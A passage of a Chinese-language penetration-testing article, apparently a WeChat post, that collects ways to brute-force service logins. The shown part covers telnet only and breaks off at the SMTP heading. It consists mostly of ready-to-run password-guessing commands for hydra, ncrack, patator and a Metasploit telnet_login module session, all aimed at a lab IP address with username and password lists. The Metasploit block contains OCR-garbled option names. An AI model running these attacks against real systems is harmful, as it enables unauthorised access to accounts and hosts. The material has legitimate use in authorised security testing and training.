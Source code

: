 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/7ft9sDPuB5axo8fBNQKyvA)

[![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfeYwjJqZiawVOoPhFXUqypbLibYJyFTufgebCjAPaKPVCDWXMMnDOvWHPegm6Q5BxyaNXLTtQIElbfA/640?wx_fmt=png)点击图片查看注册方式](http://mp.weixin.qq.com/s?__biz=MzI5MDQ2NjExOQ==&mid=2247494477&idx=1&sn=455f152637b474c0895388fa7120f9ec&chksm=ec1ddb65db6a527347fb2ba24d96fea3aa01b493ec777ffecc94999dbc8d47e974aea7e09239&scene=21#wechat_redirect)

本文对常见的系统服务的认证系统进行攻击尝试的方式做了汇总，使用到的工具主要包括 hydra、ncrack、patator、Metasploit 和 Medusa，这些工具默认在 kali 上已经安装，可以直接使用，本文主要涉及的服务包括：telnet、SMTP、SMB、FTP、SNMP、SSH、VNC，关于工具的介绍和服务的介绍未进行讲解，需自行查阅资料进行了解。

### telnet

#### hydra

> **hydra –L /root/Desktop/user.txt –P /root/Desktop/pass.txt 192.168.1.106 telnet**

`-L` 指定用户名列表

`-P` 指定密码列表

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsVfB7XY1oGT6OTaBETUaJ9iamNmqT5j26x9bvJWa86Tjlx5EvGASTiaOZQ/640?wx_fmt=png)

#### Ncrack

> **ncrack –U /root/Desktop/user.txt –P /root/Desktop/pass.txt 192.168.1.106:23**

`-U` 指定用户名列表

`-P` 指定密码列表

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsVHbibc3GbsUTd8jgwwGEPA8hvL1sQMb42fhksZcIz1QhtW4JuOrln9uQ/640?wx_fmt=png)

### Patator

> **patator telnet_login host=192.168.1.106 inputs=‘FILE0\nFILE1’ 0=/root/Desktop/user.txt 1=/root/Desktop/pass.txt persistent=0 prompt_re=‘Username: | Password:’**

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsVx2VETUcEu8jFvJe5xkicMSABmmZsQ77unaB1e7fpcBa1sTIPebs3A3Q/640?wx_fmt=png)

#### Metasploit

```
use auxiliary/scanner/telnet/telnet_login
msf exploit (telnet_login)>set rhosts 192.168.1.106 (IP of Remote Host)
msf exploit (telnet_login)>set user_•le /root/Desktop/user txt
msf exploit (telnet_login)>set pass_•le /root/Desktop/pass.txt
msf exploit (telnet_login)>set stop_on_success true
msf exploit (telnet_login)> exploit
```

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAff3KnOvggUV9p9V0SNLOLsVD8ZTiaiahDE5uIqESka2ricarm1BicVsibcBxFZzx4X941Sm5gOOhbhwicEg/640?wx_fmt=png)

### SMTP 
